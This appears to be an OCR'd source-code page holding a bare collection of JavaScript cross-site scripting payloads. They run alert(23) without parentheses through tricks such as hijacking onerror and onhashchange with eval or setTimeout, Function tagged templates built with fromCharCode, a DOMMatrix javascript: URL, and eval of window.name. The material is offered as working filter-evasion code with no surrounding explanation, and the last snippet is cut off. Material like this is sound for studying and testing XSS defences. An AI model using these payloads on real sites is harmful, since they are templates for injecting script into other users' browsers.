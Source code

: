 
    onhashchange=setTimeout;
    HashChangeEvent.prototype.toString=
    RegExp.prototype.toString;
    location.hash=
    HashChangeEvent.prototype.source=
    '1/-alert\5023\51/';

---

    onload=setTimeout
    Event.prototype.toString=
    _=>"alert\5023\51"

---

    throw/**/Uncaught=window.onerror=eval,&quot;;alert\5023\51&quot;

---

```
x=new DOMMatrix;
matrix=alert;
x.a=23;
location='javascript'+':'+x
```

---

    Function`a${`alert${Function`a${`return fromCharCode`}{fromCharCode}``${String}``40`}23${Function`a${`return fromCharCode`}{fromCharCode}``${String}``41`}`}```

---

    range = document.createRange``;
    range.createContextualFragment`<img src=x onerror=alert\x2823\x29>'`;

---

    Function`a${`${Function`a${`return from`}{from}``${Array}``96${Function`a${`return fromCharCode`}{fromCharCode}``${String}`}`}${Function`a${`return fromCharCode`}{fromCharCode}``${String}``${96}${10}${97}${108}${101}${114}${116}${40}${50}${51}${41}`}`}```


---

    window.name="alert(23)"
    location="xss.html"

xss.html

    eval.constructor`eval\x28name\x29```

---

    window.name="alert(23)"
    location="xss.html"

xss.html

